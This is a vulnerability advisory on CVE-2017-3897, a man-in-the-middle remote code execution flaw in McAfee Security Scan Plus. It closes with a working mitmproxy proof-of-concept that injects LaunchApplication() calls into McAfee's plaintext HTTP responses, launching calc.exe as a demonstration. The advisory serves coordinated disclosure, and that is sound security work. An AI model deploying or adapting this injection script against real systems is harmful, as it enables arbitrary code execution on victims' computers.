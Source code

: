 ## Vulnerability Summary
The following advisory describes a Remote Code Execution found in McAfee Security Scan Plus. An active network attacker could launch a man-in-the-middle attack on a plaintext-HTTP response to a client to run any residing executables with privileges of a logged in user.

McAfee Security Scan Plus is a free diagnostic tool that ensures you are protected from threats by actively checking your computer for up-to-date anti-virus, firewall, and web security software. It also scans for threats in any open programs.

## Credit
An independent security research company, Silent Signal, has reported this vulnerability to Beyond Security’s SecuriTeam Secure Disclosure program.

## Vendor response
The vendor has released patches to address this vulnerability.
For more information: https://service.mcafee.com/webcenter/portal/cp/home/articleview?articleId=TS102714
CVE: CVE-2017-3897

## Vulnerability details
McAfee Security Scan Plus retrieves promotional and UI design information from different mcafee.com domains and displays them to the user, typically in the main application window.

The vulnerability is caused by multiple factors:

Information is retrieved over plaintext HTTP that can be trivially modified by an active network attacker.
McAfee Security Scan Plus rely on the MCBRWSR2.DLL library to display HTML content. The Library exposes the LaunchApplication() JavaScript API that executes arbitrary commands on the affected system.
The McAfee Security Scan Plus downloads, after each scan, a UI element indicating the “protection level” of the target from the following URL:


```
http://home.mcafee.com/SecurityScanner/SSBanner.aspx
```

The following screenshot shows the placeholder of the web content while it is loaded (marked with red):



Although the original response redirects to a secure HTTPS URL (and server certificates are verified by the client), from a man-in-the-middle position it’s possible to replace the redirection message with a HTTP response indicating success, and containing the call to the LaunchApplication() JavaScript API:


```
<script>
window.external.LaunchApplication("c:\\windows\\system32\\calc.exe", "");
</script>
```

The above JavaScript executes the Windows Calculator (without arguments) with the privileges of the logged in user (on the user’s Desktop). The request is made every time the user initiates a scan or when a scan is initiated automatically – by default the product is configured for weekly scans, the exact time depends on the time of the installation.

## Proof of Concept

```
#!/usr/bin/env python3
#
# HTTP proxy mode:
#  mitmproxy -s mcsploit_inline.py --ignore '.*' 
#
# Transparent proxy mode: 
#   mitmproxy -s mcsploit_inline.py -T
#

from mitmproxy import ctx, http
import requests
import time

COMMAND="c:\\\\windows\\\\system32\\\\calc.exe"
CMDARGS=""

def response(flow):
    if flow.request.scheme == "http" and (flow.request.headers['host'].endswith("mcafee.com") or "mcafee" in flow.request.url):
        if flow.response.status_code == 302:
            ctx.log("[+] [MCSPLOIT] Insecure McAfee request found! (HTML)")
            https_url=flow.request.url.replace("http://","https://")
            r=requests.get(https_url,headers=flow.request.headers,verify=False)
            if "text/html" not in r.headers['content-type']: return
            contents=r.text 
            contents=contents.replace("</head>","<script>try{window.external.LaunchApplication(\"%s\",\"%s\");}catch(launchapperr){var x;}</script></head>" % (COMMAND, CMDARGS))
            flow.response = http.HTTPResponse.make(200,bytes(contents,encoding="utf-8"),{"Content-Type": "text/html; charset=utf-8","Expires":"-1"})
            return
        try:
            if flow.response.headers["content-type"] == "text/javascript":
                ctx.log("[+] [MCSPLOIT] Insecure McAfee request found! (JS)")
                inject="try{window.external.LaunchApplication(\"%s\",\"%s\");}catch(launchapperr){var x;}\n" % (COMMAND, CMDARGS)
                try:
                    flow.response.contents = inject + flow.response.contents
                except AttributeError:
                    ctx.log("[-] [MCSPLOIT] No content in the original response!")
                    pass
        except KeyError:
            pass
```